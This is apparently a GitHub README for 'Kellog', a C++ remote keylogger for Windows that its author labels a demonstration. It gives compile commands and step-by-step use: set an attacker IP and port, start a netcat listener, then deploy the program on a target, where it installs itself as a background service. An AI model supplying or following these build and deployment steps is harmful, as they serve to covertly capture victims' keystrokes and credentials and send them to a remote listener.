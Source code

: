 # Kellog
This is a remote keylogger coded in C++, used for demonstration purposes

# Please Note:
Kellog.exe needs to run with admin privileges

# TO COMPILE:

# LINUX
i686-w64-mingw32-g++ -static-libstdc++ -static-libgcc -o kellog.exe Kellog.c -lws2_32 -DUNICODE

# WINDOWS
g++ -o kellog.exe kellog.cpp -lws2_32 -DUNICODE

# HOW TO USE
1) First modify your IP and Port in the Kellog.cpp file
2) Compile
3) start your reverse netcat listener with nc -lvnp 1234
4) deploy Kellog.exe and run it
  - it should automatically run as a background service called "kellog"
